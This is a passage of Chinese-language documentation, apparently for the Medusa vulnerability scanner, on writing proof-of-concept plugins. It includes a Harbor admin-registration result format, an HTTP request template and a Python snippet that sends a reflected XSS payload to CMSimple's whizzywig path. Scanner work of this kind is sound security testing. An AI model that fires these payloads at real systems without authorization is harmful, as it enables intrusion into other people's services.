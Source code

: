     ```asciiarmor
    1.1.1.1存在Harbor任意管理员注册漏洞
    验证数据:
    漏洞位置:http://1.1.1.1:80/api/users
    账号:MedusaTextPoc4c5vi
    密码:MedusaTextPoc4c5vi
    注册账号数量:/api/users/10
    ```

  - 如果数据是`Get`请求或者是`Post`请求并存在数据包，应该返回如下信息，验证漏洞直接使用数据包即可(利用`Post`请求举例，`Get`同理)

    ```http
    POST / HTTP/1.1
    Host: www.ascotbe.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/ocsp-request
    Content-Length: 83
    Connection: close
    
    id=1&name=xxx
    ```

  - 比如远程执行如果有回显返回回显内容，如果无回显返回`DNSlog`验证数据内容

- ###### proxies
  - 该参数默认是`None`
- 不管传不传参数都会调用类中的`Proxies().result(proxies)`函数，如果是默认值就还是返回默认值，如果有产生会进行封装，然后返回一个字典
  
- ###### 判断漏洞存在
  - `if`判断一定要唯一性，唯一的返回状态码，唯一只在该漏洞存在的字符串正常页面不会存在的，如下所示:

    ```python
    if code == 201 and head.find("/api/users/")!=-1:
        Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                      payload_url,
                                                                                                      rm,rm,head)
        _t = VulnerabilityInfo(Medusa)
    	VulnerabilityDetails(_t.info, url,UnixTimestamp).Write()  # 传入url和扫描到的数据
        WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    ```
    
  - 如果某些数据请求的数据可以自定义，并且返回值中会返回用户自定义的值时，应当在调用随机数的类产生随机数后插入数据`deom`如下
  
    ```python
    from ClassCongregation import randoms
    rm = randoms().result(10)#生成10个随机数
    payload = '/whizzywig/wb.php?d=%27%3E%3Cscript%3Ealert%28%27{}%27%29%3C/script%3E'.format(rm)#传入随机数
    payload_url = scheme + "://" + url + ":" + str(port) + payload
    resp = requests.get(payload_url, timeout=6, verify=False)
    con = resp.text
    if con.find('<script>alert("' + rm + '")</script>') != -1:#随机数内容
        Medusa = "{}存在CMSimple跨站脚本漏洞\r\n漏洞地址:\r\n{}\r\n漏洞详情:{}\r\n".format(url, payload_url, con)
    ```
  